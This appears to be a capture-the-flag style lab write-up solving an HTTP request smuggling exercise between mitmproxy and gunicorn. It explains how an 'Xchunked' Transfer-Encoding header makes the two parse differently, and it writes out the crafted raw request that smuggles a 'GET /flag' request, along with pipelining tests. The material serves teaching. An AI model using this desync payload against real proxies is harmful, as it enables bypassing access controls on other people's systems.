 
This is just solution and little bit of analysis. We won't talk about how to detect it, there is a timing technique explained in youtube, portswigger labs.
(https://www.youtube.com/playlist?list=PLGb2cDlBWRUX1_7RAIjRkZDYgAB3VbUSw)

First let's start by mitmproxy. (on port 8002)

Check the source code (lab_extras folder),
read.py for mitmproxy
message.py for gunicorn

In mitmproxy:
```
if "chunked" in headers.get("transfer-encoding", "").lower():
```
In gunicorn:
```
if value.lower() == "chunked":
```

If I set transfer-encoding: Xchunked

mitmproxy would accept this as valid, but gunicorn won't.
mitmproxy checks if "chunked" in "Xchunked", while gunicorn checks if it is exactly equal to "chunked".

What we know?
- If we provide Xchunked, frontend will parse the request as chunked, while backend will parse it as content-length (because backend thinks it is not chunked)
Craft a request:
- It should pass mitmproxy as whole, mitmproxy should forward entire request to backend.
- Backend will parse request by checking content-length header, so you must choose it carefully.

![](../Images/5-%20Lab%20Solution%201/base_req.png)

We need to fill data and length fields.
Let's use very straight forward approach.
data:
```
GET /flag HTTP/1.1\r\n
Host: nothing\r\n\r\n
```
length: 37 bytes (0x25)

![](../Images/5-%20Lab%20Solution%201/post_req_0.png)

Total length: 48 bytes

What do we expect to happen now?
- Frontend will check chunked, forward request to backend.
- Backend will check chunked, fail, then parse it as CL header indicates.

So we need to set CL header accordingly:
![](../Images/5-%20Lab%20Solution%201/post_req_1.png)

Backend will see 3 different requests:

```
POST / HTTP/1.1\r\n
Host: we_do_not_need_host\r\n
Content-Length: 4\r\n
Transfer-Encoding: chunked\r\n
\r\n
25\r\n
```

```
GET /flag HTTP/1.1\r\n
Host: nothing\r\n\r\n
```

```
\r\n
0\r\n\r\n
```

So it needs to send 3 responses? Let see!!!

![](../Images/5-%20Lab%20Solution%201/oh_no_post.png)

Ooops, let's try get

![](../Images/5-%20Lab%20Solution%201/wireshark_0.png)

Nope?

Let see other wireshark in docker.
![](../Images/5-%20Lab%20Solution%201/wireshark_1.png)

Edit-->Preferences-->Name Resolution-->Resolve network (ip) adresses
View-->Name Resolution-->Edit Resolved Name

![](../Images/5-%20Lab%20Solution%201/wireshark_2.png)

Servers sent 3 responses to mitmproxy but mitmproxy only sent me 1 response.

We can say "mitmproxy only wants to send 1 response to 1 request"
But it is better to don't assume things, every proxy and server can act different.
Nevertheless we have an easy way out. (I'll show you in a min)

What happens if we send one more request?
![](../Images/5-%20Lab%20Solution%201/wireshark_3.png)

It didn't work because our single tcp connection closed, we can confirm it by checking stream id. Meaning? There is a time limit apparently, if x request not send in y seconds, why would we keep connection open? Maybe.. It could be for many reasons, but this is what we know right now.

![](../Images/5-%20Lab%20Solution%201/wireshark_4.png)

Let's try to send requests in a single tcp connection, but fast.
![](../Images/5-%20Lab%20Solution%201/post_req_2.png)

![](../Images/5-%20Lab%20Solution%201/post_req_3.png)

Nice that worked! 
Another way to do that:
At first it maybe confusing but think as sending data not request.

![](../Images/5-%20Lab%20Solution%201/post_req_4.png)
![](../Images/5-%20Lab%20Solution%201/wireshark_5.png)

The key difference is, in this case we sent all requests at once, rather than sending request & waiting response cycle. (http pipelining)

![](../Images/5-%20Lab%20Solution%201/wireshark_6.png)

